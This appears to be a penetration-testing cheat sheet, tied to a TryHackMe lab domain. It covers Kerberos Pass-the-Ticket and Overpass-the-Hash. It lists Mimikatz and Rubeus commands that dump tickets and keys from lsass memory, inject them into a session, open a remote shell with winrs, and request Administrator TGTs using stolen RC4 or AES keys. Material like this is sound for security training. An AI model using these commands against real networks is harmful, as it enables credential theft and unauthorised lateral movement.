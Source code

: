 # Pass The Ticket
- Pass the ticket involves stealing the ticket and the session key and using it impersonate the user to get access to resources or services.
- TGT & ST can be used, but TGTs are preferred because we get access to any service.
### Mimikatz
```powershell
# Tickets can be extracted from lsass memory using the following command
sekurlsa::tickets /export
# On linux, it the keys are located in files. Location of these files can be found in the kerberos configuration files: `/etc/krb5.conf`.

# Inject ticket to current session:
kerberos::ptt <ticket_id>
# This purges the current tickets from memory and injects the specified tickets
```
### Rubeus
```bash
.\Rubeus.exe dump # Dumps the tickets 
# Dumps all ticket when run with elevated privilege
.\Rubeus.exe /nowrap # dumps ticket with no new lines
.\Rubeus.exe /service:krbtgt # specify service

# Using the ticket
.\Rubeus.exe ptt /ticket:<base64ticket> 
```
- Verify the ticket with `klist`:
```powershell
klist
```
- Get a shell
```powershell
# Credentails get automatically injected. similar to runas's /netonly
winrs.exe -r:<server/IP> cmd.exe
```

# Overpass The Hash/Pass The Key
- When a user requests a TGT, the TGT encrypts the timestamp and other details with a key derived from their password. 
- The algorithm used call be the following depending on the kerberos configuration :
	- DES (Deprecated)
	- RC4
	- AES128
	- AES256
- We can ask the Key Distrubution Center for TGT by passing this key through mimikatz
```powershell
sekurlsa::ekeys
```
- For RC4 Hash
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:<key> /run:"<command>"
```
- For AES128
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:<key> /run:"<command>"
```
- For AES256
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:<key> /run:"<command>"
```
Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH).